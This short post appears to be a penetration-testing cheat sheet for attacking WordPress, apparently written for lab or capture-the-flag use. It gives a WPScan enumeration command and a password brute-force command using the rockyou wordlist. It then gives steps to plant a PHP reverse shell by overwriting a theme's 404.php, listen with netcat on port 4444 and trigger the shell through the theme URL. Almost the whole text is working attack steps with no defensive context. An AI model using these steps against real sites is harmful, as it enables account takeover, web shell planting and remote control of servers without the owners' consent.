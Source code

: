 ```yaml
---
layout: post
title:  "webapp - wordpress"
date:   2022-01-01
categories: web
---
```


## Enumeration

```bash

wpscan --rua -e --url http://<ip>:<port>/<uri>/

```

## Brute force

```bash

wpscan --rua --url http://<ip>:<port>/<uri>/ -P /usr/share/wordlists/rockyou.txt -U user

```

## Reverse Shell

```

Login -> Appearance -> Theme Editor -> Twenty Seventeen: 404 Template (404.php)

Change the content of the 404.php with this : /usr/share/webshells/php/php-reverse-shell.php

Listener: nc -nlvp 4444

Trigger the Reverse Shell : http://<ip>:<port>/<uri>/wp-content/themes/twentyseventeen/404.php

```

